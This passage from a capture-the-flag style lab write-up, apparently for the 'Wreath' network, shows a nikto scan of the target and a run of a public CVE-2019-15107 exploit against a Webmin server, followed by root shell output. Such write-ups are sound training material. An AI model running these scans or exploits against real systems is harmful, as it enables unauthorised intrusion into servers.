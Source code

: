 This tool scanned the website for common directories name. The result of this scan is listed below:

```
https://thomaswreath.thm/img/
```

![Screenshot of one result of the directory fuzzing](Screenshot_2023-09-05_18-47-06.png)

To scan the webserver hosted in the ports 80 and 443, we also used the tool nikto and the following command:

```
nikto -h thomaswreath.thm -port 80,443 -output resultnikto.txt
```

## Exploiting known vulnerability
In this section, we exploited the vulnerability of the webserver **MiniServ 1.890 (Webmin httpd)**. For this task, we used the exploit available online [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107).

This exploit written in python allows automatic execution by performing the following command:

```
CVE-2019-15107.py thomaswreath.thm -p 10000
```

As result of this command, we are able to penetrate on the server and execute commandos, as shown below:

```
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:5a:e7:a1:7c:ad brd ff:ff:ff:ff:ff:ff
    inet 10.200.105.200/24 brd 10.200.105.255 scope global dynamic noprefixroute eth0
       valid_lft 2261sec preferred_lft 2261sec
    inet6 fe80::5a:e7ff:fea1:7cad/64 scope link 
       valid_lft forever preferred_lft forever
# whoami
root
# hostname
```